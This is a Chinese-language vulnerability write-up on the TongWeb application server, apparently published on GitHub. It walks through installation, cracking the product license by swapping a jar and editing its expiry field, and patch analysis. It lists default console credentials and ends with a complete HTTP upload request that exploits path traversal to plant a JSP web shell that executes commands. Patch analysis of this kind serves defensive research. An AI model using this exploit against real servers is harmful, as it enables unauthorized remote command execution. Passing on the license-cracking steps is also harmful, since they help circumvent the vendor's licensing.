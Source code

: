 # TongWeb

## 环境搭建
Tongweb安装，双击`Install_TW6.1.5.13_Enterprise_JDK_Windows.exe`。一直点击下一步即可。安装完成后，从bin目录下的`startserver.bat`文件启动tongweb。如果控制台出现`TongWeb server startup complete`即启动成功

访问`http://ip:9060/console`，如果成功看到TongWeb管理控制台界面即成功。tongweb6.1登陆`用户名:thanos 密码:thanos123.com`

**license破解**

twnt.jar是license相关包，破解的twnt.jar放到lib目录下替换，并在tongweb根目录下创建一个空的license.dat。有的破解twnt.jar可能已经失效，例如启动tongweb时报错license过期。针对license过期的问题，修改`com.tongtech.a.b.a.a.a`类中`end_date`字段值，例如修改为2025-10-10

**修改jar包的技巧**

假如想要替换jar包中某个类的内容。新建一个IDEA工程，选取TongWeb对应的JDK版本，例如1.7，在src目录下，根据想要替换的类的package路径创建一个类，然后复制源类中的内容并进行修改，然后点击IDEA的build，生成out文件夹下对应的.class文件，复制出来。用7zip打开jar包，用生成的.class替换掉原文件即可。

## 补丁分析
补丁地址： http://www.tongtech.com/Services/Services-103_2.html

根据补丁的发布顺序，官方修复的信息大致如下
```
(1) 关闭命令行运维用户的上传文件功能
(2) 修复控制台命令执行、文件上传 、XSS和未授权访问问题
(3) 修复管理控制台文件上传和下载问题
(4) 修复未授权JNDI注入、控制台命令执行问题
(5) 修复命令执行、未授权访问、文件上传/下载/删除等问题
```

**(1) 关闭命令行运维用户的上传文件功能**
补丁修复位于`\applications\sysweb\WEB-INF\web.xml`，直接将补丁替换原文件即可，对比补丁和原文件，发现删除了如下几行
```
	<servlet>
		<servlet-name>upload</servlet-name>
		<servlet-class>com.tongweb.admin.jmx.remote.server.servlet.AppUploadServlet</servlet-class>
	</servlet>
	<servlet-mapping>
		<servlet-name>upload</servlet-name>
		<url-pattern>/upload</url-pattern>
	</servlet-mapping>
```

这个访问路径为`http://ip:9060/sysweb/upload`，默认的用户名`cli`，密码`cli123.com`

<details>
  <summary>AppUploadServlet代码</summary>
  <pre>
  <code>
protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        PrintWriter out = resp.getWriter();
        InputStream is = null;
        FileOutputStream fos = null;
        String tempPath = System.getProperty("tongweb.home") + File.separator + "temp";
        String filePath = tempPath + File.separator + "upload";
        try {
            Iterator i$ = req.getParts().iterator();
            while(i$.hasNext()) {
                Part p = (Part)i$.next();
                is = p.getInputStream();
                String header = p.getHeader("content-disposition");
                String fileName = this.parseFileName(header); // return header.substring(header.lastIndexOf("=") + 1, header.length());
                File file = new File(filePath, fileName);
                if (!file.exists()) {
                    File temp = new File(filePath);
                    if (!temp.exists()) {
                        temp.mkdir();
                    }
                    file.createNewFile();
                }
                fos = new FileOutputStream(file);
                byte[] buffer = new byte[1856219];
                while(true) {
                    int bytedata = is.read(buffer);
                    if (bytedata == -1) {
                        break;
                    }
                    fos.write(buffer, 0, bytedata);
                }
            }
            out.write("success!");
        } catch (IOException var18) {
            out.write("fail to upload\n");
            var18.printStackTrace();
        } finally {
            if (is != null) {
                is.close();
            }
            if (out != null) {
                out.flush();
                out.close();
            }
            if (fos != null) {
                fos.flush();
                fos.close();
            }
        }
    }
  </code>
  </pre>
</details>

下面发包过程存在一个坑，主要是AppUploadServlet代码中在获取fileName时用了parseFileName方法，该方法截取最后一个等号后的内容，然后和Tongweb的安装目录`C:\TongWeb6.1\temp\upload`进行拼接。

如果直接上传文件，一般filename="c.jsp"，这样拼接完的路径是`C:\TongWeb6.1\temp\upload\"c.jsp"`，而Windows又禁止文件名包含`\ / : * ? " < > |`其中的一个。所以在抓包时，将filename后面的引号去掉，并且可以跨目录
```
POST /sysweb/upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryaYguOre6zCdYZhE1

------WebKitFormBoundaryaYguOre6zCdYZhE1
Content-Disposition: form-data; name="filename"; filename=../../applications/console/c.jsp
Content-Type: application/octet-stream

<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>
------WebKitFormBoundaryaYguOre6zCdYZhE1--
```
